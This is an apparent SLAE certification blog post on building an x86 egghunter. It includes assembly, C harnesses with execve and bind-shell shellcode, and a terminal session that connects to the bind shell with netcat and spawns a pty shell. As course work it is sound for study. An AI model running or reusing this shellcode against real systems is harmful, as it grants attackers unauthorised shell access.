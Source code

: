 ```yaml
---
layout: post
title: Egghunter
date: 2021-01-16 16:31:00
categories: posts
comments: false
en: true
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. Today we are going to have a close 
look at Egghunters. 

An Egghunter is a form of malware, commonly used during Exploit-Development sessions in order to process bigger shellcode when there is low space available. The process is quite 
simple, this will search for a specific tag within the memory. When found, the flow will be passed upon the instructions following the tag, executing the original shellcode. 

The third assignment from the seven requires the creation of an Egghunter through the Assembly language, and converting such into [shellcode](https://es.wikipedia.org/wiki/Shellcode). Moreover, it is required to test such.

##### Methods

In order to create an Egghunter shellcode, there are several paths. However, as the time goes on, newer techniques are implemented that make shellcoding easier. I have chosen to 
cover a modern method which is fast, and tends to be very small regarding size. This method obeys the following procedure:

+ The tag is saved on ESI
+ EBX is incremented
+ The value of EBX is compared with ESI. If positive, this should set the Zero Flag (ZF)
+ Repeat this process through a jump if not zero (JNZ) condition.
+ Jump into EBX.

It is quite important to note that the tag does not contain an opocode that could interfere with our egghunter, such as an INC ESI (46), or DEC EBX (4B). The chosen tag is 
45474547 (GEGE).

Code:

```term
global _start

_start:

      mov esi, 0x45474547       ; Moves the tag GEGE into ESI

main:

      inc ebx                   ; Increments EBX for comparison.
      cmp dword [ebx], esi      ; Compares EBX with ESI, that contains the tag. If they contain the same value, set the Zero flag (ZF).
      jne main                  ; Jumps to main to repeat the loop until the Zero flag (ZF) is set.
      push ebx                  ; Pushes the value of EBX into the stack.
      ret                       ; Pops it into the EIP.
```

Let's test this egghunter within the C format:

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\xbe\x47\x45\x47\x45\x43\x39\x33\x75\xfb\x53\xc3";

unsigned char code[] = \
"\x47\x45\x47\x45"
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ ./egghunter 
Shellcode size:  26
Egg size:  12
$
```

Furthermore, there is an additional detail that the egghunter should be configurable for different payloads. As the only requirement is to leave the tag at the start of the 
payload, configuration for different shellcodes should be easy.

Let's test this egghunter within the C format once again. I will now use the bind shell developed during [this](https://whitecr0wz.github.io/posts/SLAE-Bind/) post.

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\xbe\x47\x45\x47\x45\x43\x39\x33\x75\xfb\x53\xc3";

unsigned char code[] = \
"\x47\x45\x47\x45"
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\x68\x67\x01\x66\x58\xb3\x02\xb1\x01\x52\xcd\x80\x89\xc6\x66\x68\x69\x01\x66\x58\x89\xf3\x52\x52\x66\x68\x23\x28\x66\x6a\x02\x89\xe1
\xb2\x10\xcd\x80\x66\x68\x6b\x01\x66\x58\x89\xf3\x31\xc9\x51\xcd\x80\x66\x68\x6c\x01\x66\x58\x89\xf3\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x66\x6a\x3f\x66\x58\x89\xf3\
xfe\xc9\xcd\x80\x75\xf3\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\x66\x6a\x0b\x66\x58\xcd\x80";

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame #2

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ ./egghunter 
Shellcode size:  131
Egg size:  12

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# rlwrap nc 192.168.100.200 9000 -v 
192.168.100.200: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.200] 9000 (?) open
python3 -c 'import pty;pty.spawn("/bin/bash")'
whitecr0wz@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_3$ id && whoami 
<wz/assembly/assignments/Assignment_3$ id && whoami                 
uid=1001(whitecr0wz) gid=1001(whitecr0wz) groups=1001(whitecr0wz)
whitecr0wz
whitecr0wz@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_3$
```

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/Assignment_3).
